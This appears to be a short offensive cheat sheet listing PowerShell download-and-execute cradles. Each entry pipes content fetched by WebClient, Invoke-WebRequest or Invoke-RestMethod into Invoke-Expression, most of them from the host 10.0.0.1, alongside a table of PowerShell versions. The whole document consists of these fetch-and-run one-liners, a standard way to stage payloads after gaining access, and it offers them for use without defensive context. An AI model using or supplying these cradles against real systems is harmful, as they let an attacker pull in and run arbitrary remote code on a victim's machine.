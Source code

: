 ## Uses for Invoke-Expression en Invoke-WebRequest, Invoke-RestMethod and WebClient

### Powershell Versions
```ps
$PSVersionTable
```
- Powershell 1.0 – Windows Vista / 2008
- Powershell 2.0 – Windows 7 / 2008 R2
- Powershell 3.0 – Windows 8 / 2012
- Powershell 4.0 – Windows 8.1 / 2012 R2
- Powershell 5.0 – Windows 10

### Powershell v1.0/v2.0
```ps
IEX (New-Object Net.WebClient).DownloadString('URL')
```

### Powershell v3.0 and later
```ps
Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing | IEX
```
```ps
Invoke-RestMethod -Method Get -Uri 'http://10.0.0.1/sysinfo.txt' | IEX
```
```ps
IEX (Invoke-RestMethod -Method Get -Uri 'http://10.0.0.1/sysinfo.txt')
```
```ps
IEX (Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing)
```
```ps
Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing | Select-Object Content | IEX
```
```ps
IEX (Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing).Content
```
